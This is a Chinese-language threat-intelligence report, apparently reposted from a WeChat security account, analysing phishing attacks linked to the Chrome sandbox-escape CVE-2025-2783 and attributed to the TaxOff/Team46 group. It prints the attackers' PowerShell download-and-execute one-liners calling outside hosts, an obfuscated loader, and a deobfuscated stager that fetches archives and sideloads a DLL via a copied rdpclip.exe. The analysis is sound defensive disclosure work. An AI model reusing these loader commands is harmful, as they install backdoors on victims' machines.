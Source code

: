 #  CVE-2025-2783 谷歌Chrome零日漏洞（沙盒逃逸）的攻击分析  
 Ots安全   2025-06-19 09:17  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
介绍  
  
2025年3月，Positive Technologies专家安全中心（PT ESC）威胁情报部门分析了一起利用谷歌Chrome零日漏洞（沙盒逃逸）的攻击，该漏洞大约在同一时间被注册，并被追踪为 CVE-2025-2783。卡巴斯基的研究人员描述了该漏洞的利用方式和攻击过程，但后续的感染链仍未确定。  
  
在本报告中，我们认为此次攻击可能与 TaxOff 组织有关，我们在 之前的研究中也曾提到过该组织。本报告还提供数据表明，TaxOff 实际上与 我们之前发现的另一个组织Team46是同一个组织。  
  
Team46？  
  
引起专家关注的攻击发生在2025年3月中旬。最初的攻击媒介是一封包含恶意链接的钓鱼邮件。受害者点击该链接后，触发了一键漏洞利用 (CVE-2025-2783)，导致安装了 TaxOff使用的Trinper后门。该钓鱼邮件伪装成Primakov Readings论坛的邀请，链接指向一个托管该漏洞利用的虚假网站。该邮件的文本可在 卡巴斯基报告中找到。  
  
在对那次攻击进行调查期间，还发现了另一起可追溯到2024年10月的攻击，该攻击也始于一次网络钓鱼活动。恶意邮件中包含一份邀请函，邀请人们参加一场名为“现代世界中的联盟国家安全”的国际会议。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tad4spib6WVQc03kEYD6LB8Iwbtzdk3KJZQczKEVicViamYBDuHbvVkOtR2FcJ0DgZHAgkDm6Wic97kRpw/640?wx_fmt=png&from=appmsg "")  
  
图 1. 2024 年 10 月攻击中使用的诱饵文档  
  
电子邮件的结构和风格与 2025 年 3 月的攻击中观察到的非常相似。  
  
这封2024年10月的电子邮件包含以下链接：https://mil-by[.]info/#/i?id=[REDACTED]。点击该链接会下载一个存档，其中包含一个快捷方式，该快捷方式使用以下命令启动powershell.exe ：  
  
```
-w minimized -c irm https://ms-appdata-query.global.ssl.fastly.net/query.php?id=[REDACTED] | iex
```  
  
  
此前，我们在 Team46 攻击中看到过类似的命令：  
  
```
-w Minimized -ep Bypass -nop -c"irm https://infosecteam.info/other.php?id=jdcz7vyqdoadr31gejeivo6g30cx7kgu | iex"
```  
  
  
执行命令后下载的 PowerShell 脚本也与Team46 使用的脚本之一类似。下载的脚本如下所示：  
  
```
powershell.exe -w minimized -ep bypass -noni -nop -c Invoke-Expression $([char](10+0x18+0x2)+[char](100)+[char](0x33+0x18+0x21)+[char](0x64)+[char](99)+[char](56+0x29)+[char](111)+[char](12+0x43+0x29)+[char](22+99)+[char](0x25+56+28)+[char](100)+[char](0x70)+[char](20+0x2e+41)+[char](0x4c+0x2c)+[char](2+103)+[char](0+119)+[char](0x53+21)+[char](16+83)+[char](108)+[char](11+0x5c)+[char](105)+[REDACTED]
```  
  
  
去混淆后，脚本如下所示：  
  
```
iwr 'https://ms-appdata-fonts.global.ssl.fastly.net/docs/minsk2025v1/[REDACTED]/document.pdf' -OutFile $env:LOCALAPPDATA\Temp\umawbfez-bkw5-f85a-3idl-3z4ql69v8it0.pdf -UserAgent 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0 Safari/537.36 Edge/125.0.0.0'; & "$env:LOCALAPPDATA\Temp\umawbfez-bkw5-f85a-3idl-3z4ql69v8it0.pdf"; if(!(Test-Path -Path "$env:LOCALAPPDATA\Microsoft\windowsapps\.Appdata\winsta.dll")){ if(!(Test-Path -Path "$env:LOCALAPPDATA\Microsoft\WindowsApps\7za.exe")){iwr "https://ms-appdata-fonts.global.ssl.fastly.net/docs/minsk2025v1/[REDACTED]/pkcs7" -OutFile "$env:LOCALAPPDATA\Microsoft\WindowsApps\7za.exe" -UserAgent 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0 Safari/537.36 Edge/125.0.0.0'};iwr "https://ms-appdata-main.global.ssl.fastly.net/asset.php?query=$env:COMPUTERNAME" -OutFile "$env:LOCALAPPDATA\Microsoft\WindowsApps\\Appdata.zip" -UserAgent 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0 YaBrowser/28.4.1.2 Safari/537.36';& "$env:LOCALAPPDATA\Microsoft\WindowsApps\7za.exe" x -p'F5gk0a,20g'"$env:LOCALAPPDATA\Microsoft\WindowsApps\\Appdata.zip" -o"$env:LOCALAPPDATA\Microsoft\WindowsApps\";copy "c:\windows\system32\rdpclip.exe" "$env:LOCALAPPDATA\Microsoft\WindowsApps\.Appdata\rdpclip.exe"; & "$env:LOCALAPPDATA\Microsoft\WindowsApps\.Appdata\rdpclip.exe";del "$env:LOCALAPPDATA\Microsoft\WindowsApps\\Appdata.zip";}else{copy "c:\windows\system32\rdpclip.exe" "$env:LOCALAPPDATA\Microsoft\WindowsApps\.Appdata\rdpclip.exe";& "$env:LOCALAPPDATA\Microsoft\WindowsApps\.Appdata\rdpclip.exe"}
```